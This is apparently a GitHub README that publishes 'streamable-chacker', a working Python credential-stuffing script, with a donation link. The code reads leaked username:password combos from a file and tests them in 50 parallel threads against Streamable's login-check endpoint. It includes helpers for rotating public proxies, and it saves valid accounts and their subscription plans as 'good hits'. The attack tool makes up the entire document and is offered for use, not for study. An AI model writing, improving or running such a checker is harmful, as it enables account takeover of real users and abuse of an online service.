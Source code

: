 # streamable-chacker

## Description

This Python script performs a series of checks using a list of username-password combinations. It utilizes proxies obtained from a public proxy API to make requests to a specified URL.

## Code

```python
import datetime
import random
from concurrent.futures import ThreadPoolExecutor
import requests

x = datetime.datetime.now()

def get_proxies():
    url = 'https://api.proxyscrape.com/v3/free-proxy-list/get?request=displayproxies&protocol=http&country=all&anonymity=all&timeout=9200&proxy_format=ipport&format=text'
    r = requests.get(url).text.split()
    return r

proxy_list = get_proxies()

def get_random_proxy():
    return {
        "http": f"http://{random.choice(proxy_list)}",
        "https": f"https://{random.choice(proxy_list)}"
    }

def proxy_request(type, url, **kwargs):
    session = requests.session()
    while 1:
        try:
            proxy = get_random_proxy()
            r = session.request(type, url, proxies=proxy, timeout=5, **kwargs).json()
            # return r
            break
        except:
            # print('proxy error')
            pass
    return r

def checker(combo):
    username = combo.split(":")[0]
    password = combo.split(":")[1]

    url = "https://ajax.streamable.com/check"
    post_data = {
        "username": username,
        "password": password
    }
    r = requests.post(url, json=post_data).json()
    # r = proxy_request('post', url, json=post_data)

    # print(username, password)
    if "ad_tags" in r:
        print(f"[GOOD HIT] {username} : {password} Plan = {r['plan_name']}")
        write_to_file(username, password, r['plan_name'])
    else:
        print(f"[BAD HIT] {username} : {password} ")

with open("combo.txt", "r") as file:
    combos = file.read().split()

def write_to_file(username, password, account_type):
    open(f'Results\\[Good Hits] {x.strftime(" %d-%m-%y %I-%M-%S-%P ")}.txt', 'a').write(
        f"{username}:{password} Plan={account_type}"
    )

def main():
    with ThreadPoolExecutor(max_workers=50) as executor:
        # futures =[executor.submit(checker,combo) for combo in combos]
        # executor.shutdown(wait=True)
        try:
            futures = [executor.submit(checker, combo) for combo in combos]
            executor.shutdown(wait=True)
        except Exception as e:
            print(f'Error in ThreadPoolExecutor: {e}')
            pass

if __name__ == '__main__':
    main()
# print(combos)
# checker('email@email.com:password')
# print(get_random_proxy())
```
# Donate Me
<a href="https://www.buymeacoffee.com/trojanhax" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>


